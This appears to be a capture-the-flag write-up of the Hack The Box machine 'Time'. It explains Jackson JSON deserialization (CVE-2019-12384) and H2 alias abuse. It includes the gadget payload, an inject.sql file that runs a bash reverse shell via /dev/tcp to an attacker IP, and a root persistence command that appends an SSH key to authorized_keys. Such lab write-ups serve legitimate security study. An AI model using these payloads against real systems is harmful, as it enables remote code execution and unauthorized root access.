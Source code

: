 ```yaml
---
title: "Time Hackthebox"
date: 2021-05-27
draft: false
---
```



## Overview

This box is a Linux one. For the initial foothold you need to exploit a bug within the Jackson library for deserializing **JSON's** leading to a SSRF which can leverage a RCE. Once on the box a simple classic enumeration reveals a root bash script with read/write access. Consequenlty, just importing your pub **SSH** key into the `authorized_keys` file will grant access to root.


## Enumeration

Running nmap reveals 2 services:

```bash
> nmap -sC -sV -oA nmap/time 10.10.10.214
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Once we check the web server, we see that we can beutify/validate JSON. Also, the validate functionality is in Beta. So let's check that first.
<br>

Upon submitting `{"test"}` we see the following error: 
`Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object`

So it's expecting an array: `["test"]`. 
But that also throws an error: 
`Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.InvalidTypeIdException: Could not resolve type id 'test' as a subtype of [simple type, class java.lang.Object]: no such class found`

Now, in both of our errors we see that they're thrown by a library called *jackson*, which is used to 
serialize or map POJO *(Plain Old Java Objects)* to JSON and deserialize JSON to POJO. With some more searching we find a [CVE](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) which addresses a deserialization vulnerability where an attacker could control the class to be deserialized.


## Understanding the CVE
<br>

***What is serialization/deserialization***
In order to understand what deserialization vulnerabilities are and behave, we firstly need to get familiar with what serialization & deserialization is. Swapneil Kumar Dash wrote a beautiful [article](https://medium.com/@swapneildash/understanding-java-de-serialization-ee96054da15d) about this, however I will provide a short overview in this post as well. 

> In computing, serialization  is the process of translating a data structure or object state into a format that can be stored or transmitted and reconstructed later. Deserialization is the opposite.

In our case, we translate java objects into JSON and vice-versa.

	* What could go wrong ?

Usually, in java we can use something like this to deserialize data:
```java
...
FileInputStream fin  = new FileInputStream("your/file/path");
ObjectInputStream in = new ObjectInputStream(fin);
customClassInstance  = (CustomClass) in.readObject();
...
```
The main problem lies within the way readObject deserializes data which executes the class while also
throwing an error if we give it a serialized input of a different class.

I won't go into much detail here on this topic, since it's a broad one. However, if you're interested in 
learning more about it you should check the resources and [this talk](https://www.youtube.com/watch?v=t-zVC-CxYjw) by **Alexei Kojenov** which also made some great [examples](https://github.com/kojenov/serial) you can play 
around with.
<br>

***How java gadgets work***
Gadgets are just a class or funcion that's available within the executing scope of an application. For example the following code is a simple implementation in Java:
```java
/* CacheManager.java */
public class CacheManager implements Serializable {
	private final Runnable initHook;
	public void readObject(ObjectInputStream in) {
		in.defaultReadObject();

		initHook.run();
	}
}

/* CommandTask.java */
public class CommandTask implements Runable, Serializable {
	private final String cmd;
	public CommandTask(String cmd) {
		this.cmd = cmd;
	}

	public void run() {
		Runtime.getRuntime().exec(cmd);
	}
}
```

Here, an attacker can inject a serialized `CommandTask` into an input stream that will be read by `CacheManager`, which in return invokes run. Therefore, he gains arbitrary command execution.
<br>

***Jackson library deserialization vulnerability POC***
The *CVE* of interest is focusing mostly on the *Jackson* library. They found that when *Jackson* deserializes a specific class (`ch.qos.logback.core.db.DriverManagerConnectionSource`), it can be abused to instantiate a Java Database Connectivity *(JDBC)*, which is used to connect & interact with the dabase. To understand better let's break down the payload used in the [**POC**](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html):

`$ "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:\"}]"`

As said previously we use the `DriverManagerConnectionSource` class to pass an url, which will trigger [`setUrl`](https://www.javadoc.io/doc/ch.qos.logback/logback-core/1.1.11/ch/qos/logback/core/db/DriverManagerConnectionSource.html#setUrl(java.lang.String)). Afterwards, the object is serialized into a JSON object again. Consequently, the `getConnection()` [method](https://www.javadoc.io/static/ch.qos.logback/logback-core/1.1.11/ch/qos/logback/core/db/DriverManagerConnectionSource.html#getConnection()) is called which creates an in-memory database. This is further used to create a remote connection.
<br>

Until now, we've only got a way to generate a Server Side Request Forgery *(SSRF)*. So how could we turn this into a full chain RCE ?
In order to achieve that, the guys from [doyensec](https://doyensec.com/) leveraged the [H2](http://www.h2database.com/html/features.html) JDBC driver which has the capability to run SQL scripts from the JDBC url. This alone won't allow an attacker to run Java code inside the JVM context, however H2 has the capability to specify custom aliases containing java code [which can be abused](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html).

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream())
		.useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";
}$$;
CALL SHELLEXEC('whoami')
```

As a result, we only need to serve a sql file to the target machine that makes the request to our in-memory *DB* with the use of `DriverManagerConnectionSource` and we have remote code execution.


## Leveraging what we've learned for getting user

We've learned that we can use a deserialization vulnerability within Jackson to leverage a connection to a in-memory *DB*, which accepts aliases that can be used to execute commands. So, all wee need to do is:

1. *Prepare the `inject.sql` script*
```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream())
		.useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";
}$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/IP/PORT 0>&1')
```

2. *Setup http server & netcat listener*
![](https://i.imgur.com/kYaG0vZ.png)


3. *Abuse the deserialization vulnerability & use the `DriverManagerConnectionSource` gadget*

4. *Enjoy your shell*
![](https://i.imgur.com/jh0fwLP.png)



## Privilige escalation

Once on the box, a simple enumeration reveals that we have write access to a backup script ran by root.
```bash
bash-5.0$ cat /usr/bin/timer_backup.sh
cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

So, we could just import our public SSH key and have root access.
```bash
echo "echo SSH_PUB_KEY >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```


## Conclusion
I've seen that a lot of people said that this box is easy, which I can agree in the way that you can find the CVE quite easy and modify the POC payload to get the flags and move on, without diving more into it. However, I think that this is a great box for someone new and even for some more experienced people. I say this because if you really want to understand what's going on behind the scenes, which you should, you understand new concepts such as: *java deserialization, gadgets, how an actual CVE is found, etc*.

Honestly, I learned a lot by playing around with this box and afterall this is the goal of *HTB*. To learn new concepts that you can add to your skill-set which elevates your craft.

If you want to dig deeper into deserealization attacks within java libraries, I suggest you check the references down below. I found some really great articles/talks about this subject which I can't give enough credit.

## References
- [Understanding Java Deserialization](https://medium.com/@swapneildash/understanding-java-de-serialization-ee96054da15d)
- [Java deserealization lib to secure apps](https://github.com/ikkisoft/SerialKiller)
- [Understanding insecure implementation of Jackson deserialization](https://medium.com/@swapneildash/understanding-insecure-implementation-of-jackson-deserialization-7b3d409d2038)
- [On Jackson CVEs: Don’t Panic — Here is what you need to know](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
- [SnakeYaml Deserilization exploited](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858)
- [POC tool 4 generating payloads that exploit unsage Java object deserilization](https://github.com/frohoff/ysoserial)
- [Depickling, gadgets and chains: The class of exploit that unraveled Equifax](https://brandur.org/fragments/gadgets-and-chains)
- [POC Jackson deserilization on Spring web app](https://github.com/galimba/Jackson-deserialization-PoC)
- [Java deserilization cheat-sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jackson-json)
- [Jackson Library](https://github.com/FasterXML/jackson)
- [Marshalling Pickles - OWASP AppSec California 2015](https://www.youtube.com/watch?v=KSA7vUkXGSg)
- [CVE-2019-12384](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

